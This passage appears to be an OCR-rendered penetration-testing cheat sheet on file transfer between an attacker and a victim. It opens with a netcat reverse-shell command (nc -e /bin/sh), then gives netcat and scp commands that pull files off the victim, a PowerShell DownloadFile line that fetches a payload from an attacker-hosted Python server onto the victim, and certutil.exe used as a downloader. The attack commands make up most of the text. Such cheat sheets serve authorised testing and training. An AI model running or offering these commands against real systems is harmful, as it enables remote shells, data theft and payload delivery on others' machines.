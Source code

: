 ``` nc -e /bin/sh [IPADDR] [PORT] ```
        We will also use the netcat tool in reverse order to upload the file to the victim machine.
        It is important to take into account the permits on the ports to be used.



        Attacking machine command:
        
        	
      ```  nc -lvp 4444 > FiletoDownload  ```

        Victim machine command:
        
        	
     ```   nc 192.168.1.35 4444 -w 3 < FiletoDownload ```

        SCP(SSH utility)

        This method will only be valid if the target machine has ssh and we have the credentials.
        We will use the scp utility to transfer the file from the victim machine to ours.



        Attacking machine command:
        
        	
      ```  scp tester@192.168.1.39:/home/tester/iron/FiletoDownload ```

Windows

    Upload files to the victim

        Powershell DownloadFile

        With this method we will host our file to upload with a simple python server, which could also be hosted by any other server but we will use this for its simplicity, and then download it with the DownloadFile function of powershell.



        Attacking machine command:
        
        	
     ```   python -m SimpleHTTPServer 8080  ```

        Victim machine command:
        
        	
     ```   powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://10.10.10.1:8080/FiletoTransfer','C:\Users\test\Desktop\FiletoTransfer')"   ```

     ```   Certutil.exe  ```

        With our hosted file we will use the Microsoft tool certutil.exe to download the file we want. This tool is designed to download certificates but as we saw in this post can be used for more things.



        Attacking machine command:
        
        	
     ```   python -m SimpleHTTPServer 8080  ```

```